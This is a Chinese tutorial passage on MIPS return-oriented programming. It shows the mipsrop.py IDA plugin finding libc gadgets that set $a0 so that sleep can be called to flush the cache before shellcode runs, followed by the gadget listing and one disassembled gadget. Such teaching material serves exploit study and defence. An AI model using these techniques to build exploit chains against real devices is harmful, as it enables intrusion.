 找 gadget 我们可以使用 mipsrop.py 这个 ida 插件进行。

由于 mips 流水指令集的特点，存在 cache incoherency 的特性，需要调用 sleep 或者其他函数将数据区刷新到当前指令区中去，才能正常执行 shellcode。为了找到更多的 gadget，以及这是一个 demo ，所有我们在 libc 里查找
#### 1. 调用 sleep 函数
调用 sleep 函数之前，我们需要先找到对 a0 进行设置的 gadget
```
Python>mipsrop.find("li $a0, 1")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x000B9350  |  li $a0,1                                            |  jalr  $s2                             |
|  0x000E2660  |  li $a0,1                                            |  jalr  $s2                             |
|  0x00109918  |  li $a0,1                                            |  jalr  $s1                             |
|  0x0010E604  |  li $a0,1                                            |  jalr  $s2                             |
|  0x0012D650  |  li $a0,1                                            |  jalr  $s0                             |
|  0x0012D658  |  li $a0,1                                            |  jalr  $s2                             |
|  0x00034C5C  |  li $a0,1                                            |  jr    0x18+var_s4($sp)                |
|  0x00080100  |  li $a0,1                                            |  jr    0x18+var_s4($sp)                |
|  0x00088E80  |  li $a0,1                                            |  jr    0x1C+var_s0($sp)                |
|  0x00091134  |  li $a0,1                                            |  jr    0x70+var_s24($sp)               |
|  0x00091BB0  |  li $a0,1                                            |  jr    0x70+var_s24($sp)               |
|  0x000D5460  |  li $a0,1                                            |  jr    0x1C+var_s10($sp)               |
|  0x000F2A80  |  li $a0,1                                            |  jr    0x1C+var_s0($sp)                |
|  0x001251C0  |  li $a0,1                                            |  jr    0x18+var_s14($sp)               |
----------------------------------------------------------------------------------------------------------------
Found 14 matching gadgets
```

例如我们这里选择了  0x00E2660 处的 gadget

```
.text:000E2660                 move    $t9, $s2
.text:000E2664                 jalr    $t9 ; sigprocmask
.text:000E2668                 li      $a0, 1
```
